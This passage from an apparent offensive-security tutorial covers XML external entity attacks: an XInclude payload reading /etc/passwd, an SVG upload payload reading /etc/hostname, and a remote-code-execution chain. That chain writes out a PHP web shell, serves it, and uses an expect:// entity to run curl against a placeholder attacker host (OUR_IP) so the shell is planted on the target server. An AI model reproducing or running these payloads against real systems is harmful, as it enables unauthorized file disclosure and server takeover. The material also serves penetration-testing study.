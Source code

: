 ### 7. XInclude attack

In the following scenario, we cannot implement a classic/blind/oob XXE attack because we don't control the entire XML document and so we cannot define the `DOCTYPE` element. 

![xxe](../img/xxe.png)

We can bypass this client side verification with XInclude. **XInclude** is a part of the XML specification that allows an XML document to be built from sub-documents. We can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations **where you only control a single item of data that is placed into a server-side XML document**. 

For instance:

```
<d0p xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></d0p>
```


![xxe](../img/xxe2.png)

### 8. XXE via file upload


In a file upload feature,  if the application expects to receive a format like `.png` or `.jpeg`, then the image processing lib is likely to accept `.svg` too.

Our XXE payload could be:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```


### 9. Remote Code Execution:  PHP +  XXE

In addition to reading local files, we may be able to gain code execution over the remote server. We may still be able to execute commands on PHP-based web applications through the PHP://expect filter, though **this requires the PHP expect module to be installed and enabled**.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.

```
# Prepare the shell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

# serve it
sudo python3 -m http.server 80
```

Now we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
